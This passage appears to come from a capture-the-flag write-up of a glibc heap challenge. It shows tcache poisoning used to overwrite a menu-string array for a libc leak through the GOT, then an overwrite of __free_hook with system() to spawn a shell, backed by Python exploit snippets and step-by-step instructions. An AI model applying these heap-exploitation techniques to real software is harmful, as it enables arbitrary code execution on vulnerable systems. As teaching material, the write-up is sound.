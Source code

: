 By writing to `menu_lines[]`, we can replace the strings that are printed by the menu interface over here:

```c
int show_menu() {
  puts("\n");
  for (int i = 0; i <= 3; ++i) puts(menu_lines[i]);
}
```

This means that replacing `menu_lines[i]` with a GOT address will provide a libc leak, which we will need to use for `__free_hook = system` later. Additionally, because `menu_lines[0] == menu_lines+0x20`, we can repeat this `fd` trick with _another_ `malloc(0x30)` allocation for _another_ arbitrary write:

```not really a great diagram but it can't be helped honestly please help me
         -writable-
        /  (0x30)  \
       v            v
       [--malloc(0x40)--]
       ^        [--malloc(0x40)--]
0x404020        ^^
            fd (0x404040)
```

We'll use the `0x404020` allocation to simultaneously leak libc && secure a future arbitrary write:

```python
add(0, b'hey')  # this is heap pointer 0x55555....300.
add(0, pack(context.binary.got['free']) + 4*pack(0x404040) + pack(0)) # edit menu_lines[]
context.libc.symbols['free'] = unpack_bytes(r.recvuntil(b'\x7f')[-6:],6) # grab libc leak from `show_menu()`
```

The second `add()` call is essentially converting `menu_lines[]` to this:

```c
.data:0000000000404020 menu_lines      dq offset free_got
.data:0000000000404028                 dq offset menu
.data:0000000000404030                 dq offset menu
.data:0000000000404038                 dq offset menu
.data:0000000000404040 menu            dq offset menu
```

With the tcache in an infinite loop again, this time directed at `menu`:

![image-20210207104704120](image-20210207104704120.png)

From here, we have the power to write to pop a shell:

1. run `add()` with `pack(__free_hook)` as input. This will overwrite the fd for the chunk associated with `0x404040`.
2. Run `add()` again to get rid of the remaining `0x404040` pointer on the tcache
3. Run `add()`; any input at this point will overwrite `__free_hook`; I chose<sup>5</sup> to use `system()` here
4. `add("/bin/sh")` to index 0, and run `flip()`. `"/bin/sh"` will be the first string to be freed.
